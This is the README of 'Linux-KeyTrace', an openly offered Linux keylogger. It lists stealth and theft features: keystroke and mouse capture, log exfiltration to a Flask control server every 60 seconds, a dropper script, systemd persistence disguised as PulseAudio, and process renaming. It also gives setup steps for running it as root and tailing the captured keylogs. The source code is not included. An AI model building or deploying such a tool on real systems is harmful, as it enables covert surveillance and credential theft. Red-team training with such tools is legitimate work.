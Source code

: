 ![Linux-KeyTrace Banner](Banner.png)

#  🔐 Linux-KeyTrace <sup><sub>v1.0</sub></sup>

**Linux-KeyTrace** is a Linux-based advanced keylogger built for cybersecurity research and awareness purposes. It captures keystrokes and mouse activity, logs them locally with timestamps, and periodically exfiltrates logs to a remote control server. It includes stealth features such as process renaming and service masquerading.

---

## ⚠️ Disclaimer

> This project is intended **strictly for educational and ethical security research purposes only**.  
> Do **not** use it on systems without **explicit authorization**.  
> The developer assumes **no responsibility** for misuse.

---

## 🔧 Features

- ✅ **Keyboard and Mouse logging** via `/dev/input` event interfaces    
- ✅ **Dynamic device discovery** (`/proc/bus/input/devices`)  
- ✅ **Remote control server** (Flask-based):  
  - Start, stop, cleanup commands  
  - Upload and download logs  
  - Serve payload binary  
- ✅ **Dropper script** to simulate infection  
- ✅ **Persistence** via systemd service (masqueraded as PulseAudio)  
- ✅ **Log exfiltration** every 60 seconds using `libcurl`  
- ✅ **Process disguise** (`pulseaudio`) and binary obfuscation  

---

## 📁 Project Structure

```
Linux-KeyTrace/
├── include/                # Header files
├── src/                    # Keylogger core logic
│   ├── device_finder.c     # Finds keyboard and mouse devices
│   ├── exfiltrator.c       # Sends logs to remote server, fetches commands
│   ├── keymap.c            # Maps keycodes to readable characters
│   ├── logger.c            # Captures and logs keystrokes/mouse events
│   └── main.c              # Main program: init, loop, cleanup
├── server/                 # Flask-based control server
│   ├── listener.py         # Control server backend
│   ├── control.txt         # Remote command file (run, stop, cleanup)
│   ├── ip.txt              # Stores IP used by client
│   └── received_logs/      # Incoming logs from clients
├── misc/                   # systemd service file
├── dropper.sh              # Simulates payload delivery
├── Makefile                # Build instructions
└── README.md               # Project info
```

---

## 🚀 Quick Setup

### 1. Build the Keylogger

```bash
make clean && make
```

---

### 2. Start the Control Server

```bash
cd server
source venv/bin/activate   # If using virtualenv
python3 listener.py
```

The server will start on `http://<your-ip>:8080`

---

### 3. Run the Keylogger (simulate infection)

**Terminal 1** (compile and run):

```bash
ps aux | grep pulseaudio
sudo kill <PID>            # Optional if testing
sudo ./pulseaudio          # Starts the keylogger
```

**Terminal 2** (server already running)

**Terminal 3** (simulate dropper execution):

```bash
./dropper.sh 127.0.0.1     # Replace with attacker IP
```

**Terminal 4** (view logs):

```bash
cd server/received_logs
tail -f keylog.txt
```

---

## 📌 Notes
 
- The keylogger requires **root permissions** to access `/dev/input/event*` devices.  
- Tested on modern Linux distributions with X11.  

---

## 🛡️ Legal Notice

This tool is designed for **red team training**, **ethical hacking labs**, or **controlled environments**.  
Unauthorized use **may violate privacy laws and computer misuse legislation** in your jurisdiction.

---

## 📫 Contact

For inquiries related to responsible usage, security research, or contributing to the project, please reach out via GitHub or your institutional contact channels.

## Author
Developed by Kunal Dharme.